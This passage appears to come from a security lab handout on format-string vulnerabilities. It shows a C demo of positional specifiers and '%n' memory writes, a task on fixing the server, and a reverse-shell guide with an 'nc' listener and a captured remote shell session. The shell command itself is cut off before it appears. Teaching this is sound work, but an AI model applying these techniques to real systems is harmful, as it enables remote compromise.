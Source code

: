**A userful technique: moving the argument pointer freely.** In a format string, we can use `%x` to move the argument pointer `valist` to the next optional arguments. We can also directly move the pointer to the `k-`th optional argument. This is done using the format string’s parameter field (in the form of `k$`). The following code example uses "`%3$.20x`" to print out the value of the 3rd optional argument (number 3), and then uses "`%6$n`" to write a value to the 6th optional argument (the variable `var`, its value will become `20`). Finally, using `%2$.10x`, it moves the pointer back to the 2nd optional argument (number 2), and print it out. You can see, using this method, we can move the pointer freely back and forth. This technique can be quite useful to simplify the construction of the format string in this task.
```
#include <stdio.h>
int main()
{
    int var = 1000;
    printf("%3$.20x%6$n%2$.10x\n", 1, 2, 3, 4, 5, &var);
    printf("The value in var: %d\n",var);
    return 0;
}
----- Output ------
seed@ubuntu:$ a.out
000000000000000000030000000002
The value in var: 20
```

## 8 Task 6: Fixing the Problem

Remember the warning message generated by thegcccompiler? Please explain what it means. Please fix the vulnerability in the server program, and recompile it. Does the compiler warning go away? Do your attacks still work? You only need to try one of your attacks to see whether it still works or not.

## 9 Guidelines on Reverse Shell

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the other end of the connection is a program run by the attacker; the program simply displays whatever comes from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.
<Br>
&emsp; A commonly used program by attackers is `netcat`, which, if running with the "`-l`" option, becomes a TCP server that listens for a connection on the specified port. This server program basically prints out whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the following experiment, `netcat` (`nc` for short) is used to listen for a connection on port `9090` (let us focus
only on the first line).
```
Attacker(10.0.2.6):$ nc -nv -l 9090     <---- Waiting for reverse shell
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$        <---- Reverse shell from 10.0.2.5.
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.0.2.5 netmask 255.255.255.0 broadcast 10.0.2.255
...
```
&emsp; The above `nc` command will block, waiting for a connection. We now directly run the following bash program on the Server machine (`10.0.2.5`) to emulate what attackers would run after compromising the server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating that the shell is running on the Server machine; we can type the `ifconfig` command to verify that the IP
address is indeed `10.0.2.5`, the one belonging to the Server machine. Here is the bash command:
```
```
